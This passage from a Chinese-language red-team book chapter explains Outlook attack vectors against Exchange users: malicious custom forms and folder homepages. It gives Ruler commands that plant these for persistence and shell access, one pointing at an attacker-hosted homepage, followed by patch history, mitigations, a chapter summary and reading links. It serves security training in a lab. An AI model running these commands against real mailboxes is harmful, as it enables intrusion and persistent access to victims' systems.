 接下来，我们将讨论 Outlook 表单[31]。它是在微软杀死规则向量后引入的。其思想是我们可以创建一个内部包含 VBScript 代码的自定义表单。幸运的是，这个脚本引擎与 VBA 宏脚本引擎是分开的，因此禁用宏并不会起作用。为了远程触发表单，我们需要发送一个正确的邮件消息类型。我们需要在 Outlook 中创建相同的表单。这项技术是实现持久化的好方法。即使受害者更改了密码，我们也可以只发送一封电子邮件并获得我们的 Shell。要运行此攻击，我们可以再次使用标尺：

```
./ruler -e vinegrep@windomain.local form add --suffix evil --input /tmp/command.txt --send
./ruler -e vinegrep@windomain.local form send --prefix evil
```

2017 年 9 月，当 Outlook 的 KB4011091 更新[32]发布时，定制表单脚本向量被摧毁。

有一个第三个向量需要讨论，称为 Outlook 主页[33]。主页允许我们通过指定一个 URL，当文件夹被打开时加载并显示该 URL，来自定义任何文件夹的默认视图。代码执行来自`OutlookViewCtl` CLSID（**0006F063-0000-0000-C000-000000000046**），它作为对象嵌入并可以在`CreateObject`方法中使用。我们需要做的就是创建我们自定义的主页，并借助标尺为用户设置它：

```
./ruler -u vinegrep -p 'Qwerty123!' -d windomain.local -e vinegrep@windomain.local -k --url https://192.168.56.106/autodiscover/autodiscover.xml --verbose --debug homepage add --url http://192.168.56.106/homepage.xhtml
```

命令执行的结果可以在以下截图中看到：

![图 1.23 – 设置 Outlook 主页](img/B18964_01_23.jpg)

图 1.23 – 设置 Outlook 主页

微软在 2017 年 10 月通过 KB4011162 更新[34]完全删除了这个向量的主页功能。减少攻击面是解决问题的最佳方法。

在本节中，我们讨论了针对 Exchange Server 的不同攻击向量。为了缓解密码喷洒攻击，必须使用多因素认证（MFA）和适当的登录监控。所有 RCE 漏洞迟早都会收到补丁。还需要修补客户端软件，因为它可以被滥用进行横向移动和持久化。

# 总结

在本章中，我们为未来的活动部署了我们的实验室。我们很幸运地有两个杰出的免费项目可用于培训和研究。之后，我们讨论了 Active Directory 的攻击链、攻击目标环境的关键步骤，以及什么是 OpSec。然后，我们深入探讨了假设漏洞模型，展示了需要克服的重大障碍，以实现稳定的初步访问。我们讨论了三种针对 Exchange Server 的主要攻击向量：凭证访问、Zero2Hero 漏洞利用和客户端软件滥用。在下一章中，我们将探讨防御规避主题的皮毛。这是一个广泛且深入的话题，最终你会发现它归结为规则*了解* *你的工具*。

# 进一步阅读

以下资源供进一步学习，将帮助你更深入了解本章中涵盖的攻击：

1.  Splunk 攻击范围 – [`github.com/splunk/attack_range`](https://github.com/splunk/attack_range)

1.  Orange Cyberdefense GOADv2 – [`github.com/Orange-Cyberdefense/GOAD`](https://github.com/Orange-Cyberdefense/GOAD)
